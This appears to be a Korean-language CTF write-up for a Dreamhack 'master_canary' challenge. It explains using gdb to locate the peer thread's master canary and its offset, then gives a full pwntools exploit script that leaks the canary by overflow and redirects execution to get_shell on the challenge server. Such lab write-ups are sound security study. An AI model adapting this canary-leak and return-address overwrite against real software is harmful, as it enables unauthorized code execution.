 - gdb를 이용해 canary의 값을 확인한 후, `find [canary]`로 검색하면 canary 값을 가진 주소가 총 **3개** 있음을 확인할 수 있다.
    
    <p align="center">
   	    <a href="/assets/images/TIL220905/Untitled.png">
    		<img src="/assets/images/TIL220905/Untitled.png" width="500">
    	</a>
	</p>
    
    - 위의 두 개의 주소는 각각 **peer thread와 main thread의 master canary**이고, 마지막 주소는 **stack 위에 존재하는 canary**임을 알 수 있다.
- `global_buffer`의 주소는 0x7ffff77eee40이므로, 첫 번째 주소까지의 offset이 0x8e8, 두 번째 주소까지의 offset이 0x7fd8e8이다. main thread의 master canary를 overwrite하기에는 offset이 너무 크므로 **peer thread의 master canary를 leak**하는 방식으로 exploit한다.

### Exploit
```
from pwn import *

#p = process("./master_canary")
p = remote("host3.dreamhack.games", 22021)
#gdb.attach(p)
e = ELF("./master_canary")

p.sendlineafter("> ", "1")

p.sendlineafter("> ", "2")
payload = b"A"*(0x8e8+1)
p.sendlineafter("Size: ", str(int(0x8e8+1)))
p.sendafter("Data: ", payload)
p.recvuntil(payload)
canary = u64(b"\x00" + p.recvn(7))
p.sendlineafter("> ", "3")
payload = b"A" * (0x20 + 0x8) + p64(canary) + b"A"*0x8 + p64(e.symbols["get_shell"])

p.sendafter("Leave comment: ", payload)

p.interactive()
```